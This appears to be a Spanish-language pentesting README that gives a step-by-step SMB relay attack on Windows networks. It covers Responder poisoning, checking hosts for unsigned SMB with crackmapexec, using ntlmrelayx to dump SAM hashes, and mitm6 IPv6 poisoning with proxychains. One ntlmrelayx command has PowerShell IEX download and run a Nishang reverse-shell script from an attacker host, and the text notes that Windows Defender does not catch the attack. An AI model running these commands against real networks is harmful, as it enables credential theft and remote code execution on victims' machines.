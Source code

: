 # Qué es un SMB Relay?

- En vez de crackear hashes obtenidos con el Repsonder, podemos pasar esos hashes a alguna máquina específica para ganar acceso.
- Es necesario que el SMB no esté firmado para que no se de validado la legitimdad del origen.
- Las credenciales que se le pasen a un equipo deben ser de un Administrador del mismo.
- Algo a tener en cuenta es que el Windows defender no lo detecta por lo que se puede efectuar el ataque aunque esté activo.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Como ver si el smb está fimado

```
crackmapexec smb <segmento_red>
```

[Ver Ejemplo](Images/firma/README.md)


# Comprobar si tus credenciales son privilegiadas sobre un equipo

```
crackmapexec smb <target> -u 'USUARIO' -p 'CONTRASEÑA'
```
[Ver Ejemplo](Images/creds/README.md)


# Configurar Responder para SMB Relay
HTTP y SMB deben estar en Off en la configuración del Responder

```
sudo nano /usr/share/responder/Responder.conf
```
<img src="https://i.imgur.com/XypgqGB.png" />

# Efectuar un SMB Relay por IPv4
El Responder debe estar activo envenenando el tráfico de la red,
```
python /usr/share/responder.py -I tun0 -rdw
```
```
ntlmrelayx.py -tf <targets.txt> -smb2support
```
[Ver Ejemplo de dumpeo de SAM](Images/sam/README.md)

# Ejecutar comandos mediante un SMB Relay por IPv4
```
ntlmrelayx.py -tf <targets.txt> -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.0:8000/PS.ps1')"
```
[Descargar shell de Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

# Ejecutar comandos mediante un SMB Relay por IPv6
Primero envenenamos el dominio con `mitm6` para luego entrar en una sesión interactiva con `ntlmrelayx` y mediante el comando `socks` podremos ver las conexiones y el `AdminStatus` de los usuarios. En el caso de obtener un usuario con `AdminStatus True` podremos  añadir en la sección `[ProxyList]` de proxychains `socks4 127.0.0.1 1080`
y luego ejecutar cme con proxychains y dumpear la SAM del equipo sin saber la contraseña.
```
mitm6 -d <dominio>
```
```
ntlmrelayx.py -6 -wh <ip_atacante> -t smb://<ip_victima> -socks -debug -smb2support
```
```
proxychains cme smb <ip_victima> -u 'usuario' -p 'daigual' -d 'NombreDelDominio' --sam 2>/dev/null
```


